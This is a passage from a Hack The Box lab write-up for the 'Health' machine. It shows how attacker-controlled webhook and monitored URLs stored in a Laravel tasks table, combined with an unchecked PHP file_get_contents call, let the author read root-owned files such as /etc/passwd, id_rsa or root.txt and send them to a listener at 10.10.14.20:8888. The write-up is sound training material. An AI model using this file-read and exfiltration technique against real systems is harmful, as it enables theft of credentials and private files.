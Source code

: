 
### Step 2
We know that we controll both ``webhookUrl`` and ``monitoredUrl``, with the SQL access we are now able to bypass all restrictions from the webpage. 
So how can we use that to our advantage? Lets look for the php code and see if it gives any hints.

```bash
susanne@health:/var/www/html$ grep -rn monitoredUrl
[... snip ...]
app/Http/Controllers/HealthChecker.php:14:        $res = @file_get_contents($monitoredUrl, false);
```

**file_get_contents()** – This is going to display the text within file(s) by reading the contents as a string, and will not interpret PHP code for execution. Because of this we can enumerate files on the filesystem, as root, and steal `id_rsa` or just grab the flag `root.txt` straight away.

As a PoC, lets try to get `/etc/passwd` printed to my webhookUrl/PayloadURL:

**(1).** Create a new webhook: 

![](/assets/images/htb-writeup-health/health03.png)

**(2).** Verify that it exists in `laravel.tasks`:

```sql
mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl        | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| 7ec7e20c-3011-4143-8aef-2e6057086327 | http://10.10.14.20:8888/ |         0 | http://10.10.14.20/ | */1 * * * * | 2022-08-24 11:49:26 | 2022-08-24 11:49:26 |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```
